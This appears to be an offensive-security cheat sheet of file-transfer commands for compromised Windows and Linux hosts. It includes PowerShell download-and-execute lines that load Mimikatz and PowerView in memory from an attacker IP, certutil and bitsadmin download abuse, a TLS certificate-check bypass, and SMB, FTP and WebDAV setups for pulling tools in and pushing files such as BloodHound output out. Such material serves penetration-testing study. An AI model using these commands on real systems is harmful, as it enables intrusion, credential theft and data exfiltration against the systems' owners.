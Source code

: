 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<IP>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://<IP>:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://<IP>/nc.exe` | Download a file using Certutil |
| `wget http://<IP>/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh http://<IP>/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<IP>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@<IP>:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| IEX` | There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter `-UseBasicParsing`. |

> Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:  
> `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

# With SMB

create server
`impacket-smbserver -smb2support share .`

transfer  
`copy \\192.168.220.133\share\nc.exe`

New versions of Windows block unauthenticated guest access  

Create the SMB Server with a Username and Password  
`impacket-smbserver -smb2support share  . -user test -password test`  

Mount the SMB Server with Username and Password  
`net use n: \\192.168.220.133\share /user:test test`  
`copy n:\nc.exe`

# With FTP

Setting up a Python3 FTP Server  
`python3 -m pyftpdlib --port 21`

Transfering Files from an FTP Server Using PowerShell  
`(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`

FTP Uploads  
`sudo python3 -m pyftpdlib --port 21 --write`  

PowerShell Upload File  
`(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`

# Python - uploadserver
`python3 -m uploadserver`

# Python WebDav
`sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`

# Connecting to the Webdav Share
`dir \\192.168.49.128\DavWWWRoot`
